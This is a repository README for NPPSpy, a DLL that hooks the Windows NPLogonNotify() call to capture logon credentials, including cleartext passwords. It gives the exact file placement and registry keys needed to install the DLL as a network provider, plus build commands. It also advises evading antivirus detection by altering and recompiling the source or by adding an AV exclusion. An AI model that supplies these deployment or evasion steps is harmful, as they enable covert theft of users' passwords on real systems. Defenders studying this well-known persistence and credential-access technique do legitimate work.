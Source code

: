 Simple (but fully working) code for `NPLogonNotify()`. 
The function obtains logon data, including cleartext password.

**The DLL is detected by AV engines as a "potentially unwanted software" for obvious reason.**<br>
You have been warned. And if you want to run it anyway, you can re-compile it (instructions below) after introducing some changes in the source code, or just add an AV exclusion.

#### Installation:
1. Copy NPPSpy.dll to the System32 folder
1. Add `"NPPSpy"` at the end of the `"ProviderOrder"` in `HKLM\SYSTEM\CurrentControlSet\Control\NetworkProvider\Order`
1. Create `HKLM\SYSTEM\CurrentControlSet\Services\NPPSpy\NetworkProvider` and set following values:
   - `"Class" = [REG_DWORD]2`
   - `"ProviderPath" = [REG_EXPAND_SZ]"%SystemRoot%\System32\NPPSPY.dll"`
   - `"Name" = [REG_SZ]"NPPSpy"`

OR

Use the ConfigureRegistrySettings.ps1 script (by @LadhaAleem)

Re-logon is required, reboot is not required.

#### Build it at home
1. From the Start Menu run Visual Studio 2019 -> x64 Native Tools Command Prompt for VS 2019
1. Browse to the folder with your NPPSpy.c
1. Run cl.exe /LD NPPSpy.c

#### Documentation:
The idea is somewhat documented at https://docs.microsoft.com/en-us/windows/win32/api/npapi/nf-npapi-nplogonnotify

#### Video
I did my best to explain the flow on a short video: https://youtu.be/ggY3srD9dYs

